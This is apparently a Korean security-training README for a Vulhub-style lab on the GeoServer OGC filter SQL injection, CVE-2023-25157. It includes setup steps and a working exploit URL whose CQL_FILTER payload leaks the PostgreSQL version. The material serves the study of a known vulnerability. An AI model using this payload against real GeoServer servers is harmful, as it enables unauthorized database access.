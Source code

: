 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
</br>

## 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

## 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.
</br>

## 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS 데이터 저장소가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

아래 간단한 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

</br>

## 결과
아직 없음
![](result1.jpg) | ![](result2.png)
![](result3.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
